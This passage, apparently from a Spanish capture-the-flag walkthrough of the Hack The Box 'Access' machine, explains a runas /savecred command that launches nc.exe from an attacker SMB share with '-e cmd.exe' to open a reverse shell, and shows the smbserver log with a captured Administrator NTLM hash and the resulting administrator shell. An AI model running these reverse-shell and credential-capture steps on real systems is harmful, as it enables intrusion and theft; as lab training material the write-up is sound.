 Ejecutando runas (la implementación en windows de sudo y doas):
- `/savecred`: Usa las credenciales que ya tienes
- `/user:ACCESS\Administrator`: El usuario que debe ejecutarlo
- command: 
    - `/c`: Lanza el comando como oneshot
    - `\\10.10.13.32\a\nc.exe`: La ubicación remota y completa del ejecutable que se lanzará dentro de `cmd.exe`, en este caso `nc.exe`
        - `-vn`: Muestrame mas información y no me resuelvas nada
        - `10.10.13.32 3001`: Te vas a conectar por netcat a esta direccion y puerto
        - `-e cmd.exe`: Vas a ejecutar y concatenar este binario despues de conectarte

En el lado de mi máquina el smbserver a la escucha con parámetro `a` como el smbshare y la carpeta donde tengo netcat for win32.

```text
root@laptop:/home/xbytemx/git/impacket/examples# python smbserver.py a /home/xbytemx/tools/netcat-win32-1.11/
Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.98,49157)
[*] AUTHENTICATE_MESSAGE (ACCESS\Administrator,ACCESS)
[*] User Administrator\ACCESS authenticated successfully
[*] Administrator::ACCESS:4141414141414141:705304e1f134ba65060d2b39864d93c9:010100000000000000ba7acb86acd401eddc87b6510dd4f900000000010010006b004e00760050004b0062004f0053000200100079005200460049006600520055006b00030010006b004e00760050004b0062004f0053000400100079005200460049006600520055006b000700080000ba7acb86acd40106000400020000000800300030000000000000000000000000300000ce9db888d778a45092ce747ee5d6e3db0ded2df675ab47b104b65825609ca8f00a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310033002e0033003200000000000000000000000000
[*] AUTHENTICATE_MESSAGE (\,ACCESS)
[*] User \ACCESS authenticated successfully
[*] :::00::4141414141414141
[*] Disconnecting Share(1:IPC$)
[-] Unknown level for query path info! 0x109
[-] Unknown level for query path info! 0x4
[-] Unknown level for query path info! 0x109
[*] Disconnecting Share(2:A)
```

Así es, ya tenia la hash de NTLM de Administrator, unos minutos rompiendo y conseguiría la pass, pero fui terco en concatenar comandos.

El netcat en mi máquina esperando el remote shell de cmd.exe:

```text
xbytemx@laptop:~/htb/access$ ncat -vnlp 3001
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::3001
Ncat: Listening on 0.0.0.0:3001
Ncat: Connection from 10.10.10.98.
Ncat: Connection from 10.10.10.98:49158.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
access\administrator

C:\Windows\system32>cd c:\Users\Administrator\Desktop\
cd c:\Users\Administrator\Desktop\
```

